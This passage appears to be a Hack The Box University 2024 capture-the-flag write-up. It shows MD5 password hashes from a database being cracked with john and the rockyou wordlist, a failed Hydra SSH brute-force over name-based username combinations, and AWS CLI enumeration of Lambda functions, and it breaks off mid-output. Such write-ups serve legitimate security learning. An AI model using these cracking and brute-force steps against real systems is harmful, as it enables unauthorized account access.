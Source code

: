 ![Database](/HTB-UNIVERSITY-2024/images/database.png)

In the database there are 50 rows containing each a first and last name as well as an md5 password, all of them got cracked in a few seconds using john.

`
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt
`

This is the moment things got a little messed up. With the information we had, we tried to brute-force an SSH login using Hydra and a variety of combinations such as FirstName:password, LastName:password, and FirstName.LastName:password, but it was in vain -_-.

We then opted to list the lambda functions on the aws bucket:

```
┌──(kali㉿kali)-[~]
└─$ aws --endpoint=http://local.clouded.htb/ lambda list-functions --output json
{
    "Functions": [
        {
            "FunctionName": "UploadToS3",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:UploadToS3",
            "Runtime": "python3.8",
            "Role": "arn:aws:iam::000000000000:role/LambdaS3Access",
            "Handler": "handler.lambda_handler",
            "CodeSize": 21510285,
            "Description": "",
```